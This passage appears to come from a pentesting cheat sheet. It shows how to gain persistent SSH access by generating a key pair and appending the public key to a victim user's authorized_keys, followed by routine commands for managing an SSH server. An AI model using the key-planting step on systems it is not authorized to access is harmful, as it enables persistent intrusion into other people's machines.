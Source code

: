 If it exists, you may be able to connect SSH with your keys as victim user.

### 2. Generate SSH Keys

```sh
ssh-keygen -f key

# Copy the content of publick key
cat ./key.pub
```

Then copy the content of public key you generated.

### 3. Add the Content of Publick Key to authorized_keys

In remote machine,

```sh
echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys
```

<br />

## SSH Server

### Start/Stop/Restart

- **Start**

    ```sh
    sudo systemctl start ssh
    ```

- **Stop**

    ```sh
    sudo systemctl stop ssh
    ```

- **Restart**

    ```sh
    sudo systemctl restart ssh
    ```

### Status

```sh
sudo systemctl status ssh

ps -e | grep ssh
```

### Configuration

```sh
vim /etc/ssh/sshd_config
```
